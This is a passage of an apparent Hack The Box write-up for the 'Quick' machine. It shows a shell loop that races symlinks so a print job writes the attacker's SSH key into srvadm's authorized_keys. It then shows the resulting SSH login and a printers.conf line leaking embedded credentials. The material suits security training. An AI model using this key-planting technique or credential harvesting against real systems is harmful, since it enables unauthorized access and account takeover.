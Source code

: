 To abuse the file write and put my public SSH in the `srvadm` user directory instead, we can do this:

```
while true ; do N=`date +%Y-%m-%d_%H:%M:%S` ; if [[ ! -r $N ]] ; then rm -f $N ; ln -s /home/srvadm/.ssh/authorized_keys $N ; fi ; done
```

In the print job form, I'll send my SSH key:

![](/assets/images/htb-writeup-quick/image-20200425212900578.png)

Now that my key has been uploaded, I can SSH to the server as user `srvadm`.

```
root@kali:~# ssh srvadm@10.10.10.186
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

[...]

Last login: Sat Apr 25 21:57:39 2020 from 10.10.14.10
srvadm@quick:~$ id
uid=1001(srvadm) gid=1001(srvadm) groups=1001(srvadm),999(printers)
```

## Privesc

I looked at the files in srvadm's home directories and found a few things that stood out:

```
./.cache/conf.d:
total 20
drwxr-xr-x 2 srvadm srvadm 4096 Mar 20 06:23 .
drwx------ 5 srvadm srvadm 4096 Mar 20 06:20 ..
-rw-r--r-- 1 srvadm srvadm 4569 Mar 20 06:20 cupsd.conf
-rw-r--r-- 1 srvadm srvadm 4038 Mar 20 06:23 printers.conf

./.cache/logs:
total 96
drwxr-xr-x 2 srvadm srvadm  4096 Mar 20 06:46 .
drwx------ 5 srvadm srvadm  4096 Mar 20 06:20 ..
-rw-r--r-- 1 srvadm srvadm  9064 Mar 20 06:19 cups.log
-rw-rw-r-- 1 srvadm srvadm 71479 Mar 20 06:46 debug.log
-rw-rw-r-- 1 srvadm srvadm  1136 Mar 20 06:39 error.log
```

The `.cache/conf.d/printers.conf` file contains credentials:

```
[...]
MakeModel KONICA MINOLTA C554SeriesPS(P)
DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
State Idle
[...]
```
